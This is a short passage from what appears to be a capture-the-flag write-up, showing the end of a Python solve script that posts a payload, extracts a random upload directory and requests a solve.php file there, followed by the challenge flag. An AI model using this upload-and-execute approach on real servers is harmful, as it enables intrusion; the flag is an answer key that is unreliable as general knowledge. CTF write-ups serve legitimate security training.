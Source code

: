 ```python
    headers={
        "Content-Type": "text/plain"
    },
    data=payload
)

rand = res.text.split("/")[2]

res = requests.get(URL + "/images/{}/solve.php".format(rand))
print(res.text)
```

Flag: `potluck{christmas_brings_the_categories_together}`

